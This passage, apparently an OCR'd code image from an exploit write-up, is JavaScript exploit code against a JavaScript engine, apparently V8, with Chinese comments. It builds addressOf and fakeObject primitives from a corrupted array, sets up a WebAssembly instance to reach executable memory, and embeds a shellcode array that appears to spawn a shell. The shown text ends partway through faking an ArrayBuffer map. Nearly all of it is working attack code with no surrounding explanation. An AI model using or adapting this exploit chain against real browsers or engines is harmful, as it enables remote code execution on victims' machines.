 ```
array.length = 0x2000;
array.fill(obj);

for(var i = 0;i &lt; victim_array.length;i++)`{`
   victim_array[i] = array.slice(0,array.length);
`}`


function addressOf(m_obj) `{`
   for(var i = 0;i &lt; victim_array.length;i++)`{`
      victim_array[i][0] = m_obj;
   `}`
   return u64f(corrupted_array[0x20000])[0] - 0x1;
`}`

var tag = `{`a:1.1`}`;
var tag_addr = addressOf(tag);
//print("tag_addr=" + tag_addr.toString(16));

//寻找corrupted_array后面是哪一个Array
next_array_idx = undefined;
corrupted_array[0x20001] = p64f(tag_addr+0x1,0x123456);
//搜索标记
for(let i = 0; i &lt; victim_array.length; i++) `{`
   tmp = victim_array[i];
   if (tmp[2] == tag) `{`
      tmp = undefined;
      console.log("[+] next array at : " + i);
      next_array_idx = i;
      break;
   `}`
`}`

if (next_array_idx == undefined) `{`
   throw "error"
`}`

function fakeObject(addr) `{`
   corrupted_array[0x20000] = p64f(addr+0x1,0x123456);
   return victim_array[next_array_idx][0];
`}`


const wasmCode = new Uint8Array([0x00,0x61,0x73,0x6D,0x01,0x00,0x00,0x00,0x01,0x85,0x80,0x80,0x80,0x00,0x01,0x60,0x00,0x01,0x7F,0x03,0x82,0x80,0x80,0x80,0x00,0x01,0x00,0x04,0x84,0x80,0x80,0x80,0x00,0x01,0x70,0x00,0x00,0x05,0x83,0x80,0x80,0x80,0x00,0x01,0x00,0x01,0x06,0x81,0x80,0x80,0x80,0x00,0x00,0x07,0x91,0x80,0x80,0x80,0x00,0x02,0x06,0x6D,0x65,0x6D,0x6F,0x72,0x79,0x02,0x00,0x04,0x6D,0x61,0x69,0x6E,0x00,0x00,0x0A,0x8A,0x80,0x80,0x80,0x00,0x01,0x84,0x80,0x80,0x80,0x00,0x00,0x41,0x2A,0x0B]);
const shellcode = new Uint32Array([795371626, 1752379183, 1852400175, 23651209, 2164326657, 1769088052, 3375431937, 1493461585, 2303844609, 1792160225, 2160941067]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;

var wasm_shellcode_ptr_addr = addressOf(func) + 0x18;
print('wasm_shellcode_ptr_addr=' + wasm_shellcode_ptr_addr.toString(16));

var proto_addr = addressOf(ArrayBuffer.prototype);

var faker = [1.1,2.2,3.3,4.4,5.5,6.6,7.7,8.8,9.9];
var faker_addr = addressOf(faker);

//fake a ArrayBuffer Map
```